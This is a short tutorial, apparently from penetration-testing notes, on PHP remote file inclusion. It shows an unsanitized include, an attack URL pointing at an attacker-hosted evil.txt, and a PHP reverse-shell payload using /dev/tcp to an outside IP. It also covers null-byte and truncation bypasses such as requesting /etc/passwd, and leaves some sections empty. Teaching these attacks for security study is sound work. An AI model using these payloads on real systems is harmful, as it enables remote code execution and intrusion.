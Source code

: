 # Remote File Inclusion

A remote file inclusion vulnerability lets the attacker execute a script on the target-machine even though it is not even hosted on that machine.  RFI's are less common than LFI. Because in order to get them to work the developer must have edited the `php.ini` configuration file.

## Direct Remote Include

Consider an unsanitized parameter:

```
$incfile = $_REQUEST["file"];
include($incfile.".php");
```

Now what you can do is to include a file that is not hosted on the victim-server, but instead on the attackers server.

```
http://example.com/index.php?page=http://attackerserver.com/evil.txt
```

And evil.txt will look like something like this:

```
<?php echo shell_exec("whoami");?>

# Or just get a reverse shell directly like this:
<?php echo system("0<&196;exec 196<>/dev/tcp/10.11.0.191/443; sh <&196 >&196 2>&196"); ?>
```

So when the victim-server includes this file it will automatically execute the commands that are in the evil.txt file. And we have a RCE.

## Data Filters

## PHP Input

## Fixing Extensions

Before php version 5.3 add the nullbyte `%00` to avoid appending `.php` and/or terminate the string to bypass url filtering. 

If it does not work you can also add a `?`, this way the rest will be interpreted as url parameters.

Truncation of the string can also work depending on any environments this may be passed through:

```
http://example.com/index.php?page=/etc/passwd..............................
http://example.com/index.php?page=http://mysite.com/AAAAAAAAAAAAAAAAAAAAAAAAAAAA.php
```



